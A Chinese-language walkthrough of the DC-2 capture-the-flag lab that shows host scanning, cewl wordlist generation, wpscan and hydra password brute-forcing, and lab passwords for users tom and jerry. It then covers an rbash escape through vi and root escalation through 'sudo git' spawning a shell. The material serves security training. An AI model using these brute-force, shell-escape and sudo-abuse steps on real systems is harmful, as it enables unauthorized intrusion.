# 信息收集

## 主机探测

```sql
nmap -sn -PR -n -v 192.168.1.0/24
```


探测到存活ip,进一步探测服务以及端口开放情况：

```sql
nmap -sV -p- 192.168.1.138
```

开放了80端口web服务，以及在7744的ssh服务

访问一下80端口的web服务，发现访问失败

但是靶机上的80端口web服务确实开启了，那么应该是DNS服务器上没有相关记录，解析不到，所以需要修改hosts文件，直接定向域名到ip,先全面扫描看看猜测是否正确：

```sql
nmap -A -p- 192.168.1.138

Did not follow redirect to http://dc-2/
未遵循重定向到http://dc-2/
```



果然，所以修改host文件，位置如下

```sql
Windows：C:\Windows\System32\drivers\etc\hosts
Linux：/etc/hosts

192.168.1.138 dc-2
```



再访问，即可访问到web页面，发现flag1



```sql
您通常的单词表可能不起作用，因此，也许您只需要成为 cewl。
更多的密码总是更好，但有时你无法赢得所有密码。
以一个身份登录以查看下一个标志。
如果找不到，请以另一个身份登录。  
```

#  漏洞探测与利用

 用nmap对目标进行一下初步的漏洞扫描

发现80端口的web服务是wordpressCMS搭建的，版本是4.7.10，且发现了admin,tom,jerry三个用户名，以及后台登录路径，/wp-login.php，结合上面flag1的内容提示，接下来尝试登录一下：

先查看一下登陆界面：

发现登陆验证机制是存在问题的，可以做用户名枚举，密码爆破等等。

**（针对wordpressCMS的站点，还有一个专门的测试工具，wpscan）**

[【网安神器篇】——WPScan漏洞扫描工具_白昼安全的博客-CSDN博客](https://blog.csdn.net/qq_63844103/article/details/127162211?ops_request_misc=%7B%22request%5Fid%22%3A%22168463785916800192296423%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=168463785916800192296423&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_click~default-2-127162211-null-null.142^v87^control_2,239^v2^insert_chatgpt&utm_term=wpscan&spm=1018.2226.3001.4187)

flag1提到了cewl,cewl 是一个网页关键字抓取工具，可以根据网页中的关键字生成一个密码字典

```bash
cewl是一个 [ruby](https://www.codercto.com/topics/20648.html) 应用，爬行指定url的指定深度。也可以跟一个外部链接，结果会返回一个单词列表
语法：cewl url [options]

常用语法：

-h, –help：显示帮助。

-k, –keep：保存下载文件。

-d <x>, –depth <x>：爬行深度，默认2。

-m, –min_world_length：最小长度，默认最小长度为3。

-o, –offsite：允许爬虫访问其他站点。

-w, –write：将输出结果写入到文件。

-u, –ua <agent>：设置user agent。

-n, –no-words：不输出字典。

–with-numbers：允许单词中存在数字，跟字母一样。

-a, –meta：包括元数据。

–meta_file file：输出元数据文件。

-e, –email：包括email地址。

–email_file <file>：输入邮件地址文件。

–meta-temp-dir <dir>：exiftool解析文件时使用的临时目录，默认是/temp。

-c, –count：显示发现的每个单词的数量。

-v, –verbose：verbose。

–debug:提取调试信息。
```

使用cewl生成一个密码字典


接下来利用该密码字典以及前面收集到的三个用户名，来爆破登陆一下后台看看：

先将用户名保存到文件：



用wpscan进行爆破：

```bash
wpscan --url http://dc-2 -U user.txt -P passwd.txt
```



扫描得到jerry和tom的密码，尝试登陆，jerry得到flag2

到这里，这天路就断了

回想起前面的信息收集成果中，还有开放的ssh端口7744，不妨用这里的账户和密码去尝试连接登陆看看（不然就爆破试试），最后发现tom用户是可以连接成功的： tom parturient  

爆破：hydra -L user.txt -P pass.txt ssh://192.168.84.143  -s 7744 -vV（用户名、密码字典就自定义咯）

ssh tom@192.168.1.138 -p 7744  




## rbash绕过

发现flag3.txt,但是rbash（限制的bash），无法执行cat命令,读取内容

[Linux Restricted Shell绕过技巧总结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/188989.html)

 查看我们可以使用的命令 ls /home/tom/usr/bin



发现可用的命令就四个，先查看一下flag3内容：



**tom落后于Jerry,又提到关键字su，或许需要切换到jerry用户？**

**发现su命令无法使用，因此这里先绕过一下rbash,利用vi编辑器**

```bash
输入vi打开vi编辑器
末行模式，设置shell-->   :set shell=/bin/sh
shell
得到无限制shell(此时可以使用常规命令了，如cat、cd等)
```



切换到jerry:    su jerry      adipiscing



发现flag4.txt,没什么东西（提示到有git），那就看一下权限，提权到root再看看





## 提权

### sudo滥用提权

sudo -l   查看一下当前用户可以执行的sudo权限命令



可以运行免root权限运行git

```bash
sudo git help add
sudo git help config
sudo git -p help
//三选一
输密码
再
!/bin/bash    或者!/bin/bash
即可
```



得到最终flag



# 总结收获

1、wordpressCMS一般攻击方式，以及wpscan工具初识。

2、cewl工具初识（根据网页关键字生成密码字典）

3、rshell绕过方式

4、sudo滥用提权